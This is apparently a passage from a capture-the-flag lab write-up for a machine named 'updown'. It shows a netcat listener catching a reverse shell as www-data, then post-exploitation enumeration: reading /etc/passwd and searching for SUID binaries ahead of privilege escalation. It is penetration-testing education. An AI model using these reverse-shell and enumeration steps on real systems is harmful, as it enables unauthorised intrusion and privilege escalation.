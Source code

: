 At first I tried a simpel `ping` command to my local machine as a poc and received the ping packets using `tcpdump`, now I prepared the revshell and started a `netcat` listener and I got the rev shell as the user `www-data`.

```bash
└─$ nc -lvnp 1337                            
listening on [any] 1337 ...
connect to [10.10.16.16] from (UNKNOWN) [10.10.11.177] 39086
bash: cannot set terminal process group (911): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/tmp$ 
```

---

## Horizontal Privilege Escalation

As an initla move, I always check existing users on the target machine using this command:

```bash
www-data@updown:/tmp$ cat /etc/passwd | grep bash
cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
developer:x:1002:1002::/home/developer:/bin/bash
www-data@updown:/tmp$ 
```

So the user `developer` is my target, I started by manually browsing through the file system:

```bash
www-data@updown:/tmp$ find / -perm /4000 2>/dev/null
find / -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/su
/usr/bin/umount
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/at
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/mount
/home/developer/dev/siteisup
www-data@updown:/tmp$ cd /home
cd /home
lwww-data@updown:/home$ s
ls
developer
www-data@updown:/home$ cd developer
cd developer
www-data@updown:/home/developer$ ls -la
ls -la
total 40
drwxr-xr-x 6 developer developer 4096 Aug 30 11:24 .
drwxr-xr-x 3 root      root      4096 Jun 22 15:47 ..
lrwxrwxrwx 1 root      root         9 Jul 27 14:21 .bash_history -> /dev/null
-rw-r--r-- 1 developer developer  231 Jun 22 15:45 .bash_logout
-rw-r--r-- 1 developer developer 3771 Feb 25  2020 .bashrc
drwx------ 2 developer developer 4096 Aug 30 11:24 .cache
drwxrwxr-x 3 developer developer 4096 Aug  1 18:19 .local
-rw-r--r-- 1 developer developer  807 Feb 25  2020 .profile
```